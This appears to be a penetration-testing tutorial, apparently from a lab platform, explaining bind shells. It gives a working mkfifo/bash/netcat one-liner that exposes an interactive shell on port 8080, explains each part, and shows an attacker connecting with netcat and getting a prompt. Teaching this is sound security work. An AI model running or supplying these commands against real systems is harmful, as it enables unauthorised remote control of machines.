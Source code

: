 ## Bind Shell
As the name indicates, a **`bind shell`** will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.

### How bind shells work
#### **Setting Up the Bind Shell on the Target**

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

#### **Explanation of the Payload:**
**` rm -f /tmp/f `** - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.  
**`mkfifo /tmp/f `** - This command creates a named pipe, or FIFO, at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.  
**`cat /tmp/f `** - This command reads data from the named pipe. It waits for input that can be sent through the pipe.  
**`| bash -i 2>&1 `** - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring error messages are returned to the attacker.  
**`| nc -l 0.0.0.0 8080 `** - Starts Netcat in listen mode (-l) on all interfaces (0.0.0.0) and port 8080. The shell will be exposed to the attacker once they connect to this port.  
**`>/tmp/f `** This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.  
The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.  

#### **Terminal on the Target Machine (Bind Shell Setup)**

💡💡💡
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
Once the command is executed, it will wait for an incoming connection, as shown above.

#### **Attacker Connects to the Bind Shell**

🚨🚨🚨  Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect:
```bash
nc -nv TARGET_IP 8080
```

#### **Explanation of the command:**
**` nc `** - This invokes Netcat, which establishes the connection to the target.  
**` -n `** - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.  
**` -v `** - Verbose mode provides detailed output of the connection process, such as when the connection is established.  
**` TARGET_IP `** - The IP address of the target machine where the bind shell is running.  
**` 8080 `** - The port number on which the bind shell listens.  

#### **Attacker Terminal (After Connection)**

```bash
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```
After connecting, we can get a shell, as shown above, and execute commands.
